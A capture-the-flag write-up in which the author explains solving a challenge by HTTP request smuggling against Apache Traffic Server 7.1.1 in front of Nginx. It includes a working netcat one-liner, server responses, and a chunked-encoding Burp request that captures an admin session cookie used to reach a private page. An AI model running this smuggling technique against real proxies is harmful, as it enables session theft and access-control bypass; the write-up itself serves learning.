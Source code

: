 # 3 of hearts

> Solved too late by : Starry-lord

```
Port 33337
```

I solved this one after the competition but still felt compelled to share the process.

This one gave me a hard time, firstly because I hadn't seen HTTP request smuggling scenarios before. 

Trying to connect to the target IP:33337 redirects to a domain name 

```
threeofhearts.ctf.net
```

And displays an empty page with only the following content:

```
<script>console.log(zp2)</script>
```

Some snooping showed me the initial request was made to an Apache traffic server 7.1.1 and the second one to an Nginx server 1.15.5. 
After a few research I realized there wasn't much resource on the subject, but here's what I found :

- PortSwigger Web academy
- https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f 
- https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/

Sadly no time for going through academy through the ctf but will definitely look into it in a nearby future. 

I used 2 ways to try and see what was going on :

## Way n°1 - CLI

```
printf 'GET_/somthingthatdoesntexist_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
```

So here we manage to get double request by adding 65534 empty spaces between 2 get requests. 

First one results in a 400 error and second request goes through and shows the content of the internal website. 

```
┌──(kali㉿kali)-[~/.starlord]
└─$ printf 'GET_/somethingNotThere_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/out/save.txt_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
HTTP/1.1 400 Invalid HTTP Request
Date: Sun, 05 Dec 2021 23:34:29 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request. 
</B></FONT>
<HR>
</BODY>
HTTP/1.1 200 OK
Server: ATS/7.1.1
Date: Sun, 05 Dec 2021 23:34:29 GMT
Content-Type: text/plain
Content-Length: 151
Last-Modified: Sun, 05 Dec 2021 23:08:15 GMT
ETag: "61ad465f-97"
X-Requested: /out/save.txt
Accept-Ranges: bytes
Age: 0
Connection: keep-alive

Params:
Headers:
        X-Access: 
        Cookie: 

Params:
        cache=0
Headers:
        X-Access: 
        Cookie: 

Params:
        var1=star
        var2=lord
Headers:
        X-Access: 
        Cookie: 

                                                                                
┌──(kali㉿kali)-[~/.starlord]
└─$ 
```

## WAY n°2 - BurpSuite

It also worked with just a 0 in between GET requests and would be easier to input to burpsuite. 

The website's content would only show itself in a browser if the request was intercepted and its “Host” header manually set to threeofhearts.ctf.net

From there I found a small page with a PHP form for var1 and var2. By pressing submit, a GET request would be sent to /save.php and populate an entry in the above queried file (/out/save.txt).

There was a /private.php we were denied access to, where the flag was clearly hidden. This is the point where I had most trouble trouble realizing what was going on. 

I knew we had to craft or find the right cookie to access the private.php but didn't understand the fundamental of the HTTP request smuggling attack.

Turns out when you manage to split the request successfully, the second one will be sent from the server, which means admin headers in /out/save.txt in this case.

This was the burp request :

```
GET / HTTP/1.1
Host: threeofhearts.ctf
Transfer-Encoding: chunked
Content-Length:53

0

GET /save.php?var1=something&var2=something HTTP/1.1
```

Then making a request to /out/save.txt showed the following :

```
Headers:
  X-Access: private
  Cookie: PHPSESSID=theAdminPhpSessionId
  
Params:
  var1=something
  var2=something
Headers:
  X-Access:
  Cookie:
```

visiting /private.php with those header gave the un-guessable page link for the flag.

![](https://i.imgur.com/VPSwASa.png)
